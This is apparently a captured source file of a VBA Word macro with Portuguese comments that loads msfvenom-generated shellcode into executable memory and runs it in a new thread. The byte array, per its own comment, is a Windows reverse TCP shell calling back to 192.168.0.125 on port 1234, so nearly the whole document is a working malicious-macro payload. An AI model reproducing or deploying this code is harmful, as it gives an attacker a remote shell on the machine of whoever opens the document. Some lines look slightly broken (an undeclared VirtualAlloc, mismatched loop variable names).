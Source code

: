 ```vbnet
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Public Enum ALLOCATION_TYPE
    MEM_COMMIT = &H1000
    MEM_RESERVE = &H2000
End Enum

Sub Main()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long

    ' msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.125 LPORT=1234 -f vbapplication EXITFUNC=thread
    ' Embora o sistema esteja executando como 64 bits, o Word instala a versão de 32 bits
    buf = Array(252, 232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
    207, 13, 1, 199, 56, 224, 117, 246, 3, 125, 248, 59, 125, 36, 117, 228, 88, 139, 88, 36, 1, 211, 102, 139, 12, 75, 139, 88, 28, 1, 211, 139, 4, 139, 1, 208, 137, 68, 36, 36, 91, 91, 97, 89, 90, 81, 255, 224, 95, 95, 90, 139, 18, 235, 141, 93, 104, 51, 50, 0, 0, 104, 119, 115, 50, 95, 84, 104, 76, 119, 38, 7, 255, 213, 184, 144, 1, 0, 0, 41, _
    196, 84, 80, 104, 41, 128, 107, 0, 255, 213, 80, 80, 80, 80, 64, 80, 64, 80, 104, 234, 15, 223, 224, 255, 213, 151, 106, 5, 104, 192, 168, 0, 125, 104, 2, 0, 4, 210, 137, 230, 106, 16, 86, 87, 104, 153, 165, 116, 97, 255, 213, 133, 192, 116, 12, 255, 78, 8, 117, 236, 104, 240, 181, 162, 86, 255, 213, 104, 99, 109, 100, 0, 137, 227, 87, 87, 87, 49, 246, 106, _
    18, 89, 86, 226, 253, 102, 199, 68, 36, 60, 1, 1, 141, 68, 36, 16, 198, 0, 68, 84, 80, 86, 86, 86, 70, 86, 78, 86, 86, 83, 86, 104, 121, 204, 63, 134, 255, 213, 137, 224, 78, 86, 70, 255, 48, 104, 8, 135, 29, 96, 255, 213, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, _
    83, 255, 213)

    ' lpAddress setado como 0 passa para o kernel escolher o espaço de memória a ser reservado
    ' Ubound pega a quantidade de itens dentro do Array
    ' flAllocationType é setado como 0x3000, operação bitwise or entre 0x1000 e 0x2000
    ' flProtect seta como 0x40 que significa permissões de leitura, escrita e execução
    
    addr = VirtualAlloc(0, UBound(buf), ALLOCATION_TYPE.MEM_COMMIT Or ALLOCATION_TYPE.MEM_RESERVE, &H40)

    For contador = LBound(buf) To UBound(buf)
        data = buf(contador)
        res = RtlMoveMemory(addr + contador, data, 1)
    Next contador

    res = CreateThread(0, 0, addr, 0, 0, 0)

End Sub
```

